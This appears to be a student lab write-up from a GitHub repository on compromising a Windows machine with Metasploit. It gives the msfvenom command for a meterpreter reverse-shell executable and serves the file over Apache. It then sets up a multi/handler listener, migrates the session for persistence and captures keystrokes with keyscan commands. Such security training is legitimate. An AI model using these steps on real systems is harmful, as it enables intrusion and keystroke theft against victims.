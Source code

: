 ## EX.NO : 06
## DATE : 12.10.2023
# <p align="center"> Compromising-windows-using-Metasploit</p>


## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:

![272774215-606e3364-b0b9-43b5-9250-795b7598c04e](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/eb925d99-616c-453c-8f38-d0e8f291c585)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![272774237-5dc05fce-63a2-47f9-b694-746b22ba200d](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/2c0e895a-d547-4239-87f1-49f5dafd488a)

copy the fun.exe into the apache /var/www/html folder image
![272774266-480f5425-ce40-497b-8b25-b7ad72bbaed8](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/229ec72b-141c-445e-90d6-8548a482df90)

Start apache server sudo systemctl apache2 start
![272774295-9d9a575a-d0d4-4463-adf7-ee84feedd93b](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/26ef8941-cf20-4a5f-81f7-9ce509f61dac)



Check the status of apache2 image
![272774317-15c93b77-e16e-4fb1-9b41-6a7aeb1cd19b](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/104fbda8-d611-4d54-8db8-c69aa68a7658)

Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit image
![272774391-f96bb7a2-4ba8-42d1-8c0e-f8f834e34bdc](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/5a170cb9-00fb-469e-9ce7-ca3debbe8a30)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. image
![272774478-17e4e8a1-f58e-422e-abd4-b79905434188](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/b320515b-e72f-4698-b928-f9456de8c7ae)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image
![272774502-ae0f8e8c-f937-4ab1-85ad-1971688afc40](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/599d800c-bfa1-432f-8f87-a98ac2800401)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted image
![272774538-f6588fa0-2bf1-422e-a42f-cf7d687385a6](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/ad84f426-0f0a-40a5-bd0f-aa34113cff15)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. image
![272774564-5409594d-f21d-4c89-9c27-7e3c5cc2ee27](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/f7d6f8d5-4a84-42ca-be54-a8b536c271c2)

keyscan_dump Shows the keystrokes captured so far image
![272774589-ea183567-a808-4dd4-81ca-9d782aae245c](https://github.com/durga46/Compromising-windows-using-Metasploit/assets/75235704/5ab8e4b7-7436-440a-9c26-b66df000cd80)

## RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.






